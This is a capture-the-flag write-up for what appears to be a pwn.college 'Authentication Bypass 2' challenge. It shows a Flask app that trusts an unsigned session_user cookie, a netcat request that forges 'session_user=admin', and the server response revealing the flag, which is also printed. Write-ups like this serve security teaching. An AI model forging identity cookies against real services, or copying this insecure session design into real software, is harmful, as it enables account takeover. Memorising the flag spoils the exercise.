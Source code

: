 # 🔐 Authentication Bypass 2 — Writeup

## 🧠 Challenge Overview

We’re given a Flask web application using a temporary in-memory SQLite database. The goal is to log in as the `admin` user and retrieve the flag.

The authentication logic strictly checks for both username and password using parameterized SQL:

```python
user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
```
However, the session mechanism is based entirely on cookies and trusts the session_user cookie value.

### Source Code
```
#!/opt/pwn.college/python

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    response = flask.redirect(flask.request.path)
    response.set_cookie('session_user', username)
    return response

@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.cookies.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

---

## Vulnerability
The session authentication is based solely on the session_user cookie:
```bash
username := flask.request.cookies.get("session_user", None)
```
If session_user=admin, the flag is shown. This means we can skip login entirely by forging this cookie manually in our request.

---

## Exploit
Send a raw HTTP request using netcat with the session_user=admin cookie:
```bash
hacker@web-security~authentication-bypass-2:~$ printf "GET / HTTP/1.0\r\nHost:challenge.localhost\r\nCookie: session_user=admin\r\n\r\n" | nc challenge.localhost 80
```

---

## Flag

Output from the request:
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 20 Jul 2025 08:46:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 305
Connection: close

<html><body>Hello, admin!<br>Here is your flag: pwn.college{8EIgMcJePG4zRoeIZK588Rs1lYJ.QXycTN2wSM0IzMyEzW}
...
```
Flag: pwn.college{8EIgMcJePG4zRoeIZK588Rs1lYJ.QXycTN2wSM0IzMyEzW}
---
